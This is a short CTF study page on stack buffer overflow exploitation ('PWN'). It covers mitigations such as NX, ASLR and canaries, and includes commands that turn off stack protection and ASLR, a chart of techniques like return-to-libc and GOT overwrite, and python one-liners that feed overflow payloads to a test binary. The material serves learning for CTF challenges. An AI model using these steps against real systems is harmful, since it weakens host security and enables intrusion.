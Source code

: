 ```yaml
---
layout: default
title: PWN in CTF
---
```


<h2>{{ page.title }}</h2>


0x0 Instruction
---
  PWN in CTF are mostly based on exploring and utilize buffer overflow weaknesses. In order to Pwn the question the well known of stack overflow, stack protection techniques and shellcode are needed.

0X1 Stack overflow
---
Performing the stack overflow attack needs hackers having the deep understanding of the target program, which basicly relys on their reverse engineering techniques. Therefore, it is also platform-related. Different oprating system / CPU architectures requires different RE solution.

Otherwise the article[0] below had a very well explaination for x86_64bit Linux buffer overflow.

0x2 ASLR, Stack Canary, NX or PIE
---
They are all exploit mitigation techniques.

NX Bit makes certain areas of memory non executable. Note that NX Bit is set by gcc.

1.Switch off stack protection:

```
gcc -fno-stack-protector -z execstack
```

If ALSR is on every time executing the program, it will be loaded to different memory address. Note that ALSR is set by the OS. 

1.Check ALSR:
```
cat /proc/sys/kernel/randomize_va_space
```

2.Switch off ALSR:
```
sudo echo 0 > /proc/sys/kernel/randomize_va_space
```
    
0x3 Common procedure
---
1. Detect packer (Usually UPX in Linux)
2. checksec.sh DEP and ALSR
3. Assembly code Analysis (stack structure) in order to set breakpoint in gdb. 
   The breakpoint should be set after the stack is filled.
4. Locate RIP.
5. Write shellcode based on occasions below

```
               +---------------------------------+
               |  Classic stack over flow        |
               |  (execute payload in the stack) |
               +----+---+------------------------+
                 if |   | if
                    |   |
                    |   +--------------------------+
                    |                              |
               +----+---------------+     +--------+---------------+
               |  NX bit            |     |       ALSR             |
               |  ("+z execstack")  |     |  (randomize_va_space)  |
               +--------------------+     +--+---------------------+
               ON   |                        |
          +---------+                        |
          |                                  |
          |                     +--------------------------------------+
+---------------------------+   |  |return+to+plt                      |
|  |return+to+libc          |   |  |brute forcee                       |
|  |chained return+to libc  |   |  |GOT overwrite and GOT dereference  |
+---------------------------+   +--------------------------------------+

```

0x4 Useful commands for uploading payload to stack
---
1. Under cmd :
```
 ./bof $(python -c 'print "A" * 264 + " \x7f\xff\xff\xff\xdc\x90"[:: -1]')
```

2. Under cmd, storing payload in a file:
```
 cat payload.txt | ./bof
```

2. Under cmd, payload is an argument:
```
python -c "print 'A'*64+'\x5b\x84\x04\x08'" |xargs ./bof
```

4. Under gdb :
```
run $(python -c 'print "A" * 264 + " \x7f\xff\xff\xff\xdc\x90"[:: -1]')
```

5. Under gdb, storing payload in a file :
```
run < in.txt

6. -e recognize \x11 as hex value, -n without the end mark
```
$ echo -e -n "\x11\x22" > test  
0x5 Reference
---
[0]https://www.exploit-db.com/docs/33698.pdf

[1]http://blog.csdn.net/caterpillarous/article/details/51177527

[2]http://www.jianshu.com/p/a659924515f7

[3]https://sploitfun.wordpress.com/2015/

[4]https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/

[5]http://bobao.360.cn/learning/detail/3694.html (orienting CTF questions)

<h2>{{ page.date | date_to_string }}</h2>
